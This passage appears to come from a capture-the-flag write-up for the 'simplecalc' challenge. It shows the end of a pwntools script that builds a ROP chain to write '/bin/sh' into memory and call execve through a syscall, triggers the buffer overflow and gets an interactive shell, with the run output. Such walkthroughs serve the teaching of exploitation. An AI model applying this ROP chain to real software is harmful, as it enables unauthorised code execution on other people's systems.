 ```
pop rdx, 0x0 ; ret
'''
add(popRax)
add(0x6c1000)
add(popRdx)
add(0x0068732f6e69622f) # "/bin/sh" in hex
add(movGadget)

add(popRax) # Specify which syscall to make
add(0x3b)

add(popRdi) # Specify pointer to "/bin/sh"
add(0x6c1000)

add(popRsi) # Specify no arguments or environment variables
add(0x0)
add(popRdx)
add(0x0)

add(syscall) # Syscall instruction

target.sendline('5') # Save and exit to execute memcpy and trigger buffer overflow

# Drop to an interactive shell to use our new shell
target.interactive()
```

When we run the exploit:

```
$ python exploit.py
[+] Starting local process './simplecalc': pid 15676
[*] Switching to interactive mode
Result for x + y is 0.

Options Menu:
 [1] Addition.
 [2] Subtraction.
 [3] Multiplication.
 [4] Division.
 [5] Save and Exit.
=> $ w
 20:06:39 up  5:53,  1 user,  load average: 1.71, 1.30, 1.37
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               14:13   ?xdm?  22:10   0.00s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu gnome-session --session=ubuntu
$ ls
core  exploit.py  readme.md  simplecalc
```

Just like that, we popped a shell!
